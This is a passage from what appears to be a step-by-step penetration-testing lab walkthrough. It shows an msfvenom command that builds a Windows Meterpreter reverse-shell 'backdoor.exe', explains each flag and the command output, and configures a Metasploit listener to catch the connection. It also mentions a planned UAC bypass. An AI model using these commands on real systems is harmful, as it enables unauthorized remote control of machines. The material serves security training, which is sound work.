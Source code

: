 **Don't worry!** We have a backup plan - we'll use a manual UAC bypass technique.

---

### **Step 8: Create a Custom Payload (Advanced Technique)**

**What We're Doing:** Creating a special executable file that will give us a new connection when run.

#### **Command Used:**
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.31.2 LPORT=4444 -f exe > backdoor.exe
```

#### **What Each Part Means:**
- `msfvenom` = Payload generation tool
- `-p windows/meterpreter/reverse_tcp` = Type of payload (Windows reverse shell)
- `LHOST=10.10.31.2` = Our IP address (where to connect back)
- `LPORT=4444` = Our listening port
- `-f exe` = Format as Windows executable
- `> backdoor.exe` = Save to file named backdoor.exe

#### **What Happened:**
```bash
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
```

#### **Verification:**
```bash
file backdoor.exe
```
**Output:** `backdoor.exe: PE32 executable (GUI) Intel 80386, for MS Windows, 4 sections`

**Perfect!** We now have a 73,802-byte Windows executable that will connect back to us.

---

### **Step 9: Set Up a Listener (Multi-Handler)**

**What We're Doing:** Starting a second Metasploit instance to catch the connection from our custom payload.

#### **Commands Used:**
```bash
msfconsole -q
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.10.31.2
set LPORT 4444
exploit
```
